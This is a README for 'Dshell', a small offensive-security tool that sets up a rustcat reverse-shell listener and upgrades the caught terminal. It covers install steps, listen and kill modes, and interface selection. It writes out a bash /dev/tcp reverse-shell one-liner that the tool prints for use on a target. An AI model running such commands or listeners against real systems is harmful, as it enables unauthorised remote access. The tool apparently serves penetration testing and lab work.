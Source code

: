 # 🤔 What is this?

![](/Video/dshell.gif)

Tired of manually upgrading your reverse shell every time? Let Dshell handle it for you!

Dshell is a tiny reverse-shell helper that spins up a responsive listener and automatically upgrade your terminal on a given port using [rustcat](https://github.com/robiot/rustcat)

<br>

# ✨ Features

* Quickly set up a reverse shell listener.
* Fully responsive TTY with $${\text{\color{red}C}\text{\color{green}O}\text{\color{blue}L}\text{\color{yellow}O}\text{\color{orange}R}\text{\color{lightblue}S}}$$ and <ins>Tab Completion</ins>
* Auto-selects the best network interface when none is provided.

# 🛠️ Installation

1. Ensure [rustcat](https://github.com/robiot/rustcat) is installed on your system.
2.
```sh
git clone https://github.com/Bimo754/Dshell
cd Dshell
chmod +x install.sh
./install.sh
```

<br>


# 📖 Usage

**Dshell** has two modes, `listen` or `kill`

## Help Menu

```sh
dshell -h
```
**Usage**
```sh
dshell -p <PORT> [IFACE|IP]
dshell -k <PORT|all>
```

## Run a Listener

```sh
dshell -p <PORT> [IFACE|IP]
```

Dshell will print the most commonly used reverse shell command (with the supplied IP and PORT), for example:

```sh
bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'
```

If you don't supply an interface or IP, Dshell will try these interfaces in order:

* `tun1`
* `tun0`
* `wlan0`
* `eth0`
* `lo`

## Kill Running Processes

```sh
dshell -k <PORT|all>
```

* `<PORT>` — Kill the Dshell process listening on the specified port.
* `all`  — Kill all running Dshell processes.

<br>

# Examples

Start a listener on port `4444` using `tun0` interface:

```sh
dshell -p 4444 tun0
```

Start a listener on port `4444` using the IP `1.1.1.1`:

```sh
dshell -p 4444 1.1.1.1
```

Kill `all` running Dshell processes:

```sh
dshell -k all
```

Kill Dshell processe that is listening on port `4444`:

```sh
dshell -k 4444
```
